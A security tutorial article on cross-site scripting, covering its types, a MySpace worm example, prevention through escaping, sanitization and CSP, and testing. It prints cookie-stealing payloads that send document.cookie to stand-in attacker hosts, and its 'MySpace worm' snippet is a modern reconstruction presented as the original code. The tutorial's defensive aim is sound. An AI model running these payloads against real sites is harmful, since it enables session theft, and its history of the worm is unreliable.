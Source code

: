 ```yaml
---
title: "XSS (Cross-Site Scripting) — The Frontend’s Worst Nightmare"
slug: "security-xss"
category: "Security"
tags: ["security", "xss", "sanitization", "escaping", "javascript"]
summary: "Cross-Site Scripting (XSS) is one of the most dangerous and common web vulnerabilities. Learn how XSS works, and how to prevent it using escaping, sanitization, and secure APIs."
publishedAt: "2023-01-20"
---
```


# XSS (Cross-Site Scripting) — The Frontend’s Worst Nightmare

Cross-Site Scripting, or **XSS**, is one of the most common — and most dangerous — vulnerabilities in web applications.

It allows attackers to **inject malicious JavaScript** into your page. Once that happens, they can:
- Steal cookies and tokens
- Log keystrokes
- Deface UI
- Redirect users
- Install fake login forms
- Exfiltrate data via API

XSS is consistently featured in OWASP Top 10 for a reason: it’s widespread, powerful, and often subtle.

---

## What Causes XSS?

XSS happens when:
- User-controlled input is **rendered into HTML**
- That input is **not properly escaped or sanitized**

This could be:
- A blog comment rendered directly
- A user name injected into the DOM
- A URL parameter inserted into the page

```js
document.body.innerHTML = "Welcome " + location.hash;
```

Now try visiting: `https://example.com/#<script>alert(1)</script>`

That’s XSS.

---

## Types of XSS

### 1. Stored XSS

Malicious payload is **persisted** (e.g. in a DB) and served to users.

- Forum posts
- Comments
- User profiles

### 2. Reflected XSS

Payload is in the URL or query params and reflected in the response.

- Search results
- Error messages
- Redirects

### 3. DOM-Based XSS

The injection occurs **entirely in client-side JavaScript** — no server involvement.

```js
let user = location.hash;
document.body.innerHTML = "Hi " + user;
```

---

## Real-World Example: MySpace Worm (2005)

A user named Samy injected a script in his profile:

```html
<script>
  document.body.innerHTML += 'I love Samy';
  fetch('https://malicious.site', { method: 'POST', body: document.cookie });
</script>
```

The script auto-added Samy as a friend — to anyone who viewed his profile. It went **viral**, infecting over a million users.

---

## How to Prevent XSS

### 1. Escape Output

Use encoding when inserting untrusted content into the DOM:
- HTML encode (`<` becomes `&lt;`)
- Use `textContent`, not `innerHTML`

```js
element.textContent = userInput;
```

### 2. Sanitize Rich Content

Use libraries like:
- DOMPurify
- sanitize-html

```js
const clean = DOMPurify.sanitize(userInput);
container.innerHTML = clean;
```

### 3. Avoid Dangerous APIs

Don't use:
- `innerHTML`
- `document.write`
- `eval`, `Function`, `setTimeout("code")`
- `dangerouslySetInnerHTML` (React)

Unless absolutely necessary — and never with untrusted input.

### 4. Use CSP (Content Security Policy)

CSP blocks inline scripts, third-party sources, and eval by default:

```http
Content-Security-Policy: script-src 'self'; object-src 'none';
```

---

## Framework Protection

### React

Escapes HTML by default:

```jsx
<div>{userInput}</div> // safe

<div dangerouslySetInnerHTML={{ __html: userInput }} /> // ⚠️ vulnerable
```

### Vue

- Automatically escapes interpolated content
- Use `v-html` with caution

### Angular

- Uses `DomSanitizer`
- Context-aware escaping

---

## Testing for XSS

- Chrome DevTools → Paste payloads
- XSSHunter, Burp Suite
- Manual audit of rendering code
- Look for unescaped user content + `innerHTML`

Try payloads like:
```html
"><script>alert(1)</script>
<script>fetch('https://xss.evil?cookie=' + document.cookie)</script>
```

---

## Anti-Patterns

- Rendering user content with `innerHTML`
- Accepting raw HTML input without sanitization
- Copy-pasting `dangerouslySetInnerHTML` in React
- Allowing `eval` or JS injection via query params

---

## Conclusion: Respect the DOM

XSS is a symptom of trusting user input too much — and forgetting that the browser executes everything in the DOM.

Protect your users.

Escape your outputs. Sanitize your inputs. Audit your DOM mutations.

Because even one line of unsafe code can compromise **everything**.

